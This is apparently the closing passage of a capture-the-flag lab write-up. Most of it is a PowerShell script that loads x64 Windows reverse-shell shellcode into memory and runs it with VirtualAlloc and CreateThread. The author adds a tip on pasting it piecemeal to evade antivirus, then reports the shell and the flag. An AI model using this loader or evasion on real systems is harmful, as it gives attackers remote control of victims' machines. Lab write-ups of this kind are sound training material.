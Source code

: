 ```c#
[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x67,0x48,0x1,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x41,0x8b,0xc,0x48,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x0,0x0,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x1,0x0,0x0,0x49,0x89,0xe5,0x49,0xbc,0x2,0x0,0x4,0x57,0xa,0x6,0x22,0x9f,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x7,0xff,0xd5,0x4c,0x89,0xea,0x68,0x1,0x1,0x0,0x0,0x59,0x41,0xba,0x29,0x80,0x6b,0x0,0xff,0xd5,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0xf,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,0x99,0xa5,0x74,0x61,0xff,0xd5,0x48,0x81,0xc4,0x40,0x2,0x0,0x0,0x49,0xb8,0x63,0x6d,0x64,0x0,0x0,0x0,0x0,0x0,0x41,0x50,0x41,0x50,0x48,0x89,0xe2,0x57,0x57,0x57,0x4d,0x31,0xc0,0x6a,0xd,0x59,0x41,0x50,0xe2,0xfc,0x66,0xc7,0x44,0x24,0x54,0x1,0x1,0x48,0x8d,0x44,0x24,0x18,0xc6,0x0,0x68,0x48,0x89,0xe6,0x56,0x50,0x41,0x50,0x41,0x50,0x41,0x50,0x49,0xff,0xc0,0x41,0x50,0x49,0xff,0xc8,0x4d,0x89,0xc1,0x4c,0x89,0xc1,0x41,0xba,0x79,0xcc,0x3f,0x86,0xff,0xd5,0x48,0x31,0xd2,0x48,0xff,0xca,0x8b,0xe,0x41,0xba,0x8,0x87,0x1d,0x60,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x0,0x59,0x41,0x89,0xda,0xff,0xd5
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

We have to copy it step by step in order to avoid the AV, let's paste it and get the connection:

![](../images/Pasted%20image%2020241208151804.png)

![](../images/Pasted%20image%2020241208151833.png)

And like that, we got a reverse shell, flag in this case is: `AOC{GOT_MY_ACCESS_B@CK007}`


![](../images/Pasted%20image%2020241208151925.png)


Just like that, day 8 is done!




